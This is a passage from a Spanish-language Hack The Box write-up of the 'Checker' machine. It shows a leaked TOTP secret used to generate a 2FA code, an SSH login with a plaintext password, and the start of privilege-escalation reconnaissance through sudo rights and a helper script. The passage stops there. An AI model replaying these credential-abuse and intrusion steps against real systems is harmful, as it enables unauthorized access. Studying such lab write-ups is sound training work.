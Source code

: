 El archivo es filtrado correctamente, con la clave secreta, genero un código TOTP válido con oathtool.

```terminal
/home/kali/Documents/htb/machines/checker:-$ oathtool -b --totp DVDBRAODLCWF7I2ONA4K5LQLUE
174949
```

Y accedo por SSH como reader usando la contraseña conocida y el código 2FA generado.

```terminal
/home/kali/Documents/htb/machines/checker:-$ ssh reader@checker.htb
(reader@checker.htb) Password: hiccup-publicly-genesis
(reader@checker.htb) Verification code: 174949

reader@checker:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)

reader@checker:~$ cat user.txt
```

---
## Privilege Escalation

```terminal
reader@checker:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
reader:x:1000:1000::/home/reader:/bin/bash
```

Confirmo los permisos de `sudo` para el usuario `reader` y detecto que puede ejecutar sin contraseña cualquier llamada a `/opt/hash-checker/check-leak.sh`.

```terminal
reader@checker:~$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *
```

El script `check-leak.sh` sirve como puerta de entrada para el binario `check_leak`, cuyo propósito es comprobar si un usuario dado ha sufrido una filtración de su contraseña.

```terminal
reader@checker:~$ cat /opt/hash-checker/check-leak.sh
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"


reader@checker:~$ sudo /opt/hash-checker/check-leak.sh
Error: <USER> is not provided.
```
